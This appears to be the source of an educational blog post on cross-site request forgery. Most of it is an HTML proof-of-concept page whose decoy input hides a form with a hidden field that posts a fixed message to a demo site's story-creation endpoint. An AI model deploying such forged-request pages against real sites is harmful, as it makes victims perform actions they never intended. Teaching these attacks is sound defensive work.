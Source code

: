 ```yaml
---
layout: post
title: Cross-site Request Forgery
subtitle: Week 20
tags: [CSRF, exploit]
---
```


XSS is a popular, and well-known vulnerability. CSRF is less common but just as dangerous, particularly because of the lack of awareness.

{% highlight html linenos %}

<!doctype html>

<head>
    <title>Feels</title>
</head>

<body>
    <h1>How are you?</h1>
    <input type="textarea" />
    <!--
    notice how this text area is not a child of the form below.
    we don't care about the user's input, it is discarded.
    -->
    <form action="http://talk.local/create_story">
        <input type="hidden" name="my_story" value="i feel very small, please hold me closer..." />
        <input type="submit" />
    </form>
</body>

{% endhighlight %}

